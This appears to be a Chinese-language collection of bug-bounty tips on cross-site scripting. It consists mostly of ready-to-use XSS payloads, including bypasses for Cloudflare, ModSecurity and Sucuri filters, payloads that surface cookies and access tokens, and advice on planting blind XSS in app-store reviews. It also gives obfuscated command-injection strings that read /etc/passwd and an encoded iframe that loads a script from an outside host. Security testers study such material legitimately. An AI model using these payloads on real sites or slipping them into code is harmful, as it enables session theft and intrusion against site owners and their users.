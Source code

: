 
### Cross Site Scripting (XSS):

1.在没有参数的jsp页面情况下,可以尝试使用分号添加路径参数，比如这样：

```bash
http://example.com/test.jsp;');alert(1)// & perform XSS
```

Apache tomcat支持此功能.@0xMstar


2.@r1cs3c:当一切都无法正常工作时，我使用的一种有效的XSS绕过技术是关闭结束标记：

```js
hhh<img src="#" onmouseenter="prompt('XSS')" gggg
```

3.测试购物网站时，订购商品（而不只是IDOR）后，请尝试使用订购ID参数中的XSS Payload。他们忘了在那里过滤，因为它们本来就是数字;) @imhaxormad

4.在查看.js文件时，请尝试确定代码中的薄弱环节。例如，innerHTML表示可能存在XSS。 @rvismit

5.tip for blind xss:将bxss payloads注入appstore/play商店的应用程序评论中，公司经常使用第三方应用程序评论分析应用程序。Payload可以在第三方应用程序上触发，从而使您可以访问一些敏感信息。 @armaancrockroax

6.Use this payload for xss through open redirect ：

```js
/x:1/:///%01javascript:alert(document.cookie)/
```


7.您可以将输入框变成自动XSS，通过在“onfocus”属性上设置不可知的Payload，然后将其设置为“autofocus”，例如：

```js
<input onfocus="alert(0);" autofocus>
```


8.采用以下Payload作为文件扩展名。当扩展名反映在html中时。有时开发人员会验证文件名，而忘记验证扩展名，@ravirajpowar：

```js
<svg onload=alert(1)>
```


9.XSS Payload @LooseSecurity：

```js
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
```

10.将您的XSS Payload分成两个，例如ex。姓名，有时，您最终将获得Stored XSS，@evanricafort：

```js
<img src=x & LName: onerror=prompt(0);>
```

11.提示：演示XSS的影响，请不要使用alert('alert')。确定会话是存储在cookie还是本地存储中，然后将其放入弹出窗口中,@jmelika：

```js
cookie: alert(document.cookie)
LocalStorage: alert(localStorage.getItem('access_token'))
```

12.XSS Payload：

```js
Target[.]com/index.php?xss=<a href=x onfocus=alert(23) name=jj>
<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//
<svg onload="alert(1)" <="" svg=""
GUYS bypassed cloud flare using this payload
"><x/Onpointerrawupdate=confirm(document.cookie)>kira_deathnote
‟><marquee/onstart=confirm(1)>
"onfocus="alert`1`"autofocus="
Useful #XSS Payloads -
 "><block%quote oncontextmenu%3Dconfirm(1)>Right click me</blockquote><!--
 javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
 XSS
<body ontouchstart=alert(1)>
Triggers when a finger touch the screen
<body ontouchend=alert(1)>
Triggers when a finger is removed from touch screen
<body ontouchmove=alert(1)>
When a finger is dragged across the screen.
```

13.如果您遇到未验证的重定向问题，请不要只提交它，尝试触发反射性XSS，它会使报告更加有趣。我最喜欢的Payload是,@isrikanthd：

```js
javascript://%0aalert(1) 
javascript://%250aalert(1) in case of double encoding.
```

14.如果遇到注释页面，只需要在注释中打断一下就可以引起XSS，如果你们遇到此问题，请尝试以下操作,@rootpentesting：

```js
--!><Svg/Onload=confirm(document.domain)>
```

15.尝试使用".xss.ht"在Google上进行搜索，可以找到其他人正在测试的地方，甚至可以透露一些私有程序，@zseano。

16.您是否遇到过一个问题，可以弹出XSS，但括号内()被过滤？这个是有效Payload，可以绕过该问题，@rootpentesting：

```js
"onfocus="alert`1`"autofocus="
```

17.You can bypass a lot of #XSS filters using HTML comments.：

```js
<!----><script>alert(0);</script>
```

18.我们都知道'-alert-'和'; alert();'但是我通过fuzzing最新的Firefox找到了一些替代方案,@s0md3v：

```js
'^alert()^'
'*alert()*'
'/alert()/'
```

测试地址：[点此访问](https://public-firing-range.appspot.com/reflected/parameter/js_singlequoted_string?q=x)

19.@sasi2103:假设服务器过滤了),并且您想绕过它，然后使用：

```js
"-alert`1`,"
E.g window.location.replace("http://site.com/?x=3"); 
window.location.replace("http://site.com/?x=3"-alert`1`,") 
```

20.If the program replace all user input in the tag (ex: ,,etc.) into blank you can add "Line Feed (%0a)" before closing tag for bypass (ex: ,)：

```php
<?php
   echo "You say " . preg_replace("/<(.*?)>/", "", Array['x']);
?>
```

21.@M404ntf:XSS Bypass detection, point shot：

```js
">'><details/open/ontoggle=confirm('XSS')> ⌝
6'%22()%26%25%22%3E%3Csvg/onload=prompt(1)%3E/ ⌝
&quot;&gt;&lt;img src=x onerror=confirm(1);&gt; ⌝
```

22.@M404ntf:ModSecurity XSS Bypass：

```js
{ 1 }; <img src=x:alert(alt) onerror=eval(src) alt='spyerror'>
{ 2 }; "></tag><svg onload=alert(spyerror)>
```

23.@M404ntf:"Cloudflare" Bypass Payload：

```js
~1: &lt;img longdesc="src='x'onerror=alert(document.domain);//&gt;&lt;img " src='showme'&gt;
~2: &lt;img longdesc="src=" images="" stop.png"="" onerror="alert(document.domain);//&quot;" src="x" alt="showme"&gt;
```

24.@M404ntf:Sucuri { RCE }; payloads：

```js
Smuggling RCE Payloads:
</> /???/??t+/???/??ss?? </>

Obfuscating RCE Payloads:
</> ;+cat+/e'tc/pass'wd </>
</> c\\a\\t+/et\\c/pas\\swd </>
```

25.[@cances](http://forum.ywhack.com/redirect.php?goto=findpost&ptid=114851&pid=115181):on事件被过滤：

```js
<iframe src="data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cHM6Ly94c3MuaGFvemkubWUvai5qcz4="></iframe>
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
```

第一个base64，第二个url编码，类似的object标签也可以

执行js代码时关键字被拦截：

```js
<img src="x" onerror="a=`aler`;b=`t`;c='(`xss`);';eval(a+b+c)"\>
<script>top["al"+"ert"](`xss`);</script>
<img src=x onerror="window['al'+'ert'](0)"></img>
```

26.一些其他关于 XSS 技巧分享：

 ·更多的一些BugBountyTips可以参考这里：[https://github.com/r0eXpeR/BountyTips](https://github.com/r0eXpeR/BountyTips)
 
 ·[https://github.com/pgaijin66/XSS-Payloads](https://github.com/pgaijin66/XSS-Payloads/blob/master/payload/payload.txt)

 ·[https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)

 ·[一个Chrome插件.使用DevTools查找DOM XSS](https://github.com/filedescriptor/untrusted-types)

 ·[Twitter@XssPayloads](https://twitter.com/XssPayloads)

 ·[可以在不同上下文中使用的微小XSS Payload的集合](https://github.com/terjanq/Tiny-XSS-Payloads)

 ·[XSS数据接收平台（无SQL版）](https://github.com/trysec/BlueLotus_XSSReceiver)

 ·[用于检测和跟踪Blind XSS，XXE和SSRF的工具包](https://github.com/SpiderMate/B-XSSRF)

 ·[Cross Site Scripting (XSS) Bugbounty-Tips](https://gowsundar.gitbook.io/book-of-bugbounty-tips/cross-site-scripting-xss)


